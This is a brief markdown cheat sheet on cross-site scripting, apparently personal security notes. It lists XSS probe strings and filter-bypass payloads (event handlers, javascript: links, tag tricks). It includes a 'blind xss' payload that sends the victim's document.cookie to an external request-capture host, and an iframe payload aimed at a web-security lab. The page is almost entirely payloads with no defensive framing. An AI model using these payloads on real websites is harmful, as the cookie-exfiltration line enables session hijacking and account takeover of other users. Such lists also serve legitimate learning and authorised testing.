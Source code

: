 ```yaml
---
title: Cross-Site Scripting
description: Attacker injecting malicious code into a website and it's getting executed in the browser of other users.
sidebar: {"order": 1}
---
```

## Exploit
### Testing for XSS
Test for html injection first
```html
<h1>XSS</h1>
```

Fuzz to see what symbols can be used using [XSS Cheat Sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

### Basic
```js
<script>alert(0)</script>
```

### Bypasses

Image on error:
```js
<img src=x onerror=print()>
```

href attribute:
```js
href="javascript:alert(1)"
```

fragments:
```js
<script src=//evil/?c=
```

trailing slashes:
```js
`</script/x>`
```

nested tags:
```js
<<h2>>
```

case sensitive:
```js
<IFRAME>
```

non-existent tag:
```js
<notreal onpointerrawupdate=alert(0)>
```
autofocus:
```js
x" onfocus=alert(1) autofocus tabindex=1>
```

onmouseover:
```js
"onmouseover="alert(1)
```

blind xss:
```js
><script>document.location='https://enp0qp6rqroqc.x.pipedream.net?c='+document.cookie</script>
```

iframe:
```js
<iframe src="https://0a9800c3034ba0e181fafc8700b00051.web-security-academy.net/#" onload=this.src+="%3Cimg%20src=x%20onerror=print()%3E"></iframe>
```

## Resources
- [requestBin](https://public.requestbin.com/)
- [Ghetto XSS Cheatsheet](https://d3adend.org/xss/ghettoBypass)
